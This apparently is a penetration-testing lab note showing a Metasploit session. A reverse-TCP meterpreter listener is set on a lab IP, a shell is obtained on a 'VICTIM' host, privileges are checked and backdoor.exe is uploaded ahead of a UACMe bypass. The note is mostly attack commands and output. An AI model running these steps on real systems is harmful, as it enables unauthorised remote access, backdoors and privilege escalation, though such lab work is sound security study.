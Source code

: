 ```
msf6 > use 2
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.19.3
lhost => 10.10.19.3
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > run
```

[[metasploit]] # to upload the backdoor and the UACMe akagi.exe we use the first metasploit connection by creating a temp folder and executing the UACMe.exe

```
meterpreter > pwd
C:\Windows\system32
meterpreter > get uid
[-] Unknown command: get.
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > cd C:\\
meterpreter > mkdir Temp
Creating directory: Temp
meterpreter > cd Temp 
meterpreter > upload backdoor.exe
[*] uploading  : /root/backdoor.exe -> backdoor.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /root/backdoor.exe -> backdoor.exe
```